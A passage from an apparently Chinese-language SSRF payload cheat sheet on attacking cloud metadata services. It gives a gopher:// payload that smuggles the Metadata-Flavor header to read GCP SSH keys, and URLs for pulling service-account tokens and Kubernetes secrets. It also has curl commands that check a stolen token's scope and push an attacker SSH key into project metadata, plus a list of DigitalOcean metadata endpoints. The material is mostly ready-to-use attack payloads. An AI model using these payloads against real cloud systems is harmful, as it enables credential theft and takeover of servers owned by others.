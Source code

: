 可以通过gopher SSRF设置所需的头信息，使用以下技术

```powershell
gopher://metadata.google.internal:80/xGET%20/computeMetadata/v1/instance/attributes/ssh-keys%20HTTP%2f%31%2e%31%0AHost:%20metadata.google.internal%0AAccept:%20%2a%2f%2a%0aMetadata-Flavor:%20Google%0d%0a
```

有趣的文件可以提取：

* SSH 公共密钥: `http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json`
* 获取访问令牌: `http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token`
* Kubernetes 密钥: `http://metadata.google.internal/computeMetadata/v1beta1/instance/attributes/kube-env?alt=json`

### 添加SSH密钥

提取令牌

```powershell
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token?alt=json
```

检查令牌的作用域

```powershell
$ curl https://www.googleapis.com/oauth2/v1/tokeninfo?access_token=ya29.XXXXXKuXXXXXXXkGT0rJSA  

{ 
        "issued_to": "101302079XXXXX", 
        "audience": "10130207XXXXX", 
        "scope": "https://www.googleapis.com/auth/compute https://www.googleapis.com/auth/logging.write https://www.googleapis.com/auth/devstorage.read_write https://www.googleapis.com/auth/monitoring", 
        "expires_in": 2443, 
        "access_type": "offline" 
}
```

现在推送SSH密钥。

```powershell
curl -X POST "https://www.googleapis.com/compute/v1/projects/1042377752888/setCommonInstanceMetadata" 
-H "Authorization: Bearer ya29.c.EmKeBq9XI09_1HK1XXXXXXXXT0rJSA" 
-H "Content-Type: application/json" 
--data '{"items": [{"key": "sshkeyname", "value": "sshkeyvalue"}]}'
```

## Digital Ocean 的 SSRF URL

文档位于 `https://developers.digitalocean.com/documentation/metadata/`

```powershell
curl http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1.json
http://169.254.169.254/metadata/v1/ 
http://169.254.169.254/metadata/v1/id
http://169.254.169.254/metadata/v1/user-data
http://169.254.169.254/metadata/v1/hostname
http://169.254.169.254/metadata/v1/region
http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address

所有信息一次请求：
curl http://169.254.169.254/metadata/v1.json | jq
```
